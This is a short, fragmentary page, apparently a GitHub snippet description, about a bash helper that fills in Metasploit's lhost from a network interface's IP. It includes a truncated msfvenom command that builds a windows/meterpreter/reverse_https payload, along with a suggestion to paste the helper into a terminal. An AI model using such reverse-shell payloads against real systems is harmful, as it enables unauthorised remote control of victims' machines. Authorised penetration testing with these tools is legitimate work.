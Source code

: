 msfvenom -p windows/meterpreter/reverse_https lhost=\`getip eth0\` ...

 or even better...

msfconsole eth0

 which sets a global lhost variable to the given interface's ip

For us lazy folks...

Just paste the contents into a bash terminal
